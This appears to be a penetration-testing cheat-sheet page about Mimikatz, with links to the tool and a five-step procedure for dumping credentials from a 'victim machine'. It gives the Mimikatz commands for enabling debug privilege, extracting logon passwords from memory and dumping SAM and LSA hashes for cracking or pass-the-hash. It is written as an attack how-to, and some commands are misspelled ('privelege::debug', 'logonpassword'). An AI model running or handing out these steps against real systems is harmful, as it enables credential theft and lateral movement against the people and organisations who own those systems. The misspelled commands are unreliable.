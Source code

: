 # Mimikatz

## Github Link

* [https://github.com/gentilkiwi/mimikatz](https://github.com/gentilkiwi/mimikatz)[https://github.com/gentilkiwi/mimikatz/wiki/](https://github.com/gentilkiwi/mimikatz/wiki/)

## Dump Hashes with Procdump

* [https://www.onlinehashcrack.com/how-to-procdump-mimikatz-credentials.php](https://www.onlinehashcrack.com/how-to-procdump-mimikatz-credentials.php)

## What is Mimikatz

* tool used to view and steal credentials, generate Kerberos tickets, and leverage attacks
* dump credentials stored in memory
* cred dumping, pass-the-hash, over-pass-the-hash, pass-the-ticket, golden ticket, silver ticket, etc

## Credential Dumping with Mimikatz

### Step 1: Get Mimikatz on the Victim Machine

* use any exfiltration method
* advanced techniques may be required

### Step 2: Run Mimikatz and Command to Allow Debugging Restricted Process

```bash
privelege::debug
```

### Step 3: Compromise User Hashes

```bash
sekurlsa::logonpassword
```

* can also get wdigest \(which stores password in clear text\) but we need to turn feature on with tool\)

### Step 4: Try to Dump SAM

```bash
lsadump::sam
lsadump::sam /patch
```

### Step 5: Get User and NTLM Another Way \(Crack Them and Pass the Hash\)

```bash
lsadump::lsa /patch
```

